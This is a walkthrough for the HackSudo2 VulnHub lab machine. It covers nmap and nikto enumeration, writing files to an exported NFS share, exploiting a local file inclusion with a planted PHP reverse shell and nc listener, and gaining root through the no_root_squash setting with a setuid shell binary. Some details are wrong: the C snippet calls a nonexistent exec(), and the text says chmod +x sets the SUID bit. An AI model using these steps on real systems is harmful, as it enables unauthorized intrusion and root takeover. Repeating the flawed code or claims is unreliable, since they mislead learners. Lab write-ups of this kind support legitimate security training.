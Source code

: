 ```yaml
---
description: >-
  Walkthrough for the HackSudo2 boot2root machine on VulnHub
title: "HackSudo2 VulnHub Walkthrough"
categories: [Walkthrough]
tags: [walkthrough, ctf, vulnhub]
date: 2024-04-26 17:05:00 -0500
---
```

This is a walkthrough for the [HackSudo2](https://www.vulnhub.com/entry/hacksudo-2-hackdudo,667/) boot2root machine on VulnHub.  
## Enumeration
Ran nmap to enumerate services running on the target machine  
`sudo nmap -A -p- 10.0.3.59`
>Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-22 17:21 EDT  
Nmap scan report for 10.0.3.59  
Host is up (0.00056s latency).                                                
Not shown: 65527 closed tcp ports (reset)                                     
PORT      STATE SERVICE  VERSION                                               
80/tcp    open  http     Apache httpd 2.4.46 ((Ubuntu))                         
\|\_http-title: hacksudo:2                                                        
\|\_http-server-header: Apache/2.4.46 (Ubuntu)                                        
111/tcp   open  rpcbind  2-4 (RPC #100000)                                          
\| rpcinfo:                                                                          
\|   program version    port/proto  service                                          
\|   100000  2,3,4        111/tcp   rpcbind                                               
\|   100000  2,3,4        111/udp   rpcbind                                               
\|   100000  3,4          111/tcp6  rpcbind                                               
\|   100000  3,4          111/udp6  rpcbind                                               
\|   100003  3           2049/udp   nfs                                                   
\|   100003  3           2049/udp6  nfs                                                         
\|   100003  3,4         2049/tcp   nfs                                                         
\|   100003  3,4         2049/tcp6  nfs                                                         
\|   100005  1,2,3      34775/udp   mountd                                                      
\|   100005  1,2,3      39085/tcp6  mountd                                                      
\|   100005  1,2,3      44755/udp6  mountd                                                      
\|   100005  1,2,3      58523/tcp   mountd                                                           
\|   100021  1,3,4      35925/tcp   nlockmgr                                                         
\|   100021  1,3,4      37709/udp6  nlockmgr                                                         
\|   100021  1,3,4      43093/udp   nlockmgr                                                         
\|   100021  1,3,4      45317/tcp6  nlockmgr                                                           
\|   100227  3           2049/tcp   nfs_acl                                                            
\|   100227  3           2049/tcp6  nfs_acl                                                              
\|   100227  3           2049/udp   nfs_acl                                                              
\|_  100227  3           2049/udp6  nfs_acl                                                                  
1337/tcp  open  ssh      OpenSSH 8.3p1 Ubuntu 1 (Ubuntu Linux; protocol 2.0)                                
\| ssh-hostkey:                                                                                              
\|   3072 522e9898b9e9c092edacf88cee3c2edc (RSA)                                                                 
\|   256 6bbb8c90716af9e82a128f0a782b267d (ECDSA)                                                                
\|_  256 136845ff32680ce4b51e9baeb633f3be (ED25519)                                                               
2049/tcp  open  nfs_acl  3 (RPC #100227)  
35925/tcp open  nlockmgr 1-4 (RPC #100021)  
37059/tcp open  mountd   1-3 (RPC #100005)  
48763/tcp open  mountd   1-3 (RPC #100005)  
58523/tcp open  mountd   1-3 (RPC #100005)  
MAC Address: 08:00:27:73:22:61 (Oracle VirtualBox virtual NIC)  
Device type: general purpose  
Running: Linux 5.X  
OS CPE: cpe:/o:linux:linux_kernel:5  
OS details: Linux 5.0 - 5.3  
Network Distance: 1 hop  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  
>  
TRACEROUTE  
HOP RTT     ADDRESS  
1   0.56 ms 10.0.3.59  
>  
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 29.62 seconds  

Ran nikto to enumerate information and potential vulnerabilities for the web server running on port 80
`sudo nikto -h http://10.0.3.59`
>\- Nikto v2.5.0  
\---------------------------------------------------------------------------  
\+ Target IP:          10.0.3.59  
\+ Target Hostname:    10.0.3.59  
\+ Target Port:        80  
\+ Start Time:         2023-07-22 17:22:42 (GMT-4)  
\---------------------------------------------------------------------------  
\+ Server: Apache/2.4.46 (Ubuntu)  
\+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options  
\+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/  
\+ No CGI Directories found (use '-C all' to force check all possible dirs)  
\+ /: Server may leak inodes via ETags, header found with file /, inode: 633, size: 5bda170f7dd76, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418  
\+ Apache/2.4.46 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.  
\+ OPTIONS: Allowed HTTP Methods: OPTIONS, HEAD, GET, POST .  
\+ /web/: Directory indexing found.  
\+ /css/: Directory indexing found.  
\+ /css/: This might be interesting.  
\+ /lib/: Directory indexing found.  
\+ /lib/: This might be interesting.  
\+ /test.html: This might be interesting.  
\+ /web/: This might be interesting.  
\+ /info.php: Output from the phpinfo() function was found.  
\+ /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information. See: CWE-552  
\+ **/info.php?file=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2**  
\+ /README.md: Readme Found.  
\+ 8104 requests: 0 error(s) and 16 item(s) reported on remote host  
\+ End Time:           2023-07-22 17:22:58 (GMT-4) (16 seconds)  
\---------------------------------------------------------------------------  
\+ 1 host(s) tested

Interesting! nikto returns results for a possible RFI vulnerability in info.php  
We will come back to that

The nmap output also indicated that the nfs service is running  
Further enumeration shows that /mnt/nfs is exported on the target machine and can be mounted on our machine  
`showmount -e 10.0.3.59`  
>Export list for 10.0.3.59:  
/mnt/nfs *

Made a local directory on my Kali box at /mnt/nfs (the folder name doesn't have to be identical to the target's), mounted the target machine's /mnt/nfs folder, and gathered the first flag  
`sudo mkdir /mnt/nfs`  
`sudo mount 10.0.3.59:/mnt/nfs /mnt/nfs`  
`ls /mnt/nfs`  
>flag1.txt

`cat flag1.txt`  
>now root this system !!!

Looks like files can be created in this mounted folder too  
`sudo su`  
`cd /mnt/nfs`  
`echo "asdf" > asdf`  
`ls`  
>asdf  
flag1.txt

## Exploitation
Navigated to the page that supposedly has an RFI vulnerability  
![file.php](../images/hacksudo2_file_overview.png)

Decided to check for LFI since we can create files in the target machine's /mnt/nfs folder  
Navigated to http://10.0.3.59/file.php?file=/mnt/nfs/asdf  
![file.php asdf LFI](../images/hacksudo2_file_lfi_asdf.png)  
LFI confirmed!

Since the web server has a PHP engine, I decided to create a PHP reverse shell  
Used PenTestMonkey's php-reverse-shell.php (located in /usr/share/webshells/php on Kali) and modified the IP and port to point to my Kali machine's IP and port 1234  
Started a nc listener on port 1234  
`nc -lvp 1234`  
Copied the modified php-reverse-shell.php to /mnt/nfs/shell.php  

Navigated to http://10.0.3.59/file.php?file=/mnt/nfs/shell.php  
![file.php LFI reverse shell](../images/hacksudo2_file_lfi_revshell.png)  
Got a reverse shell running as www-data!

## Privilege Escalation
Transferred over linpeas.sh to /mnt/nfs and ran it  
In the linpeas output, we can see that /mnt/nfs has a spicy option configured: no\_root\_squash  
![nfs folder options](../images/hacksudo2_nfs_config.png)  

To quote [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe):  
>This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.  

So one way we could escalate privileges is to create a SUID file in /mnt/nfs and run it on the target machine  
Used the following [C code](https://github.com/jivoi/pentest/blob/master/shell/suid.c) to create a binary that will execute /bin/sh as root  
```c
int main(void) {
	setgid(0); setuid(0);
	exec("/bin/sh", "sh", 0);
}
```
(In hindsight, probably could have just used a simple bash script rather than a C binary for this)  

Saved the C code to /mnt/nfs/suid.c  
Compiled using `gcc suid.c -static` and generated a file named a.out  
Configured the SUID bit on the compiled file by running `chmod +x a.out`  
![Creating SUID file](../images/hacksudo2_nfs_suid.png)  

In the reverse shell, ran a.out  
![Escalating privileges](../images/hacksudo2_privesc.png)  
Got root!

### root.txt flag
![root.txt flag](../images/hacksudo2_flag_root.png)
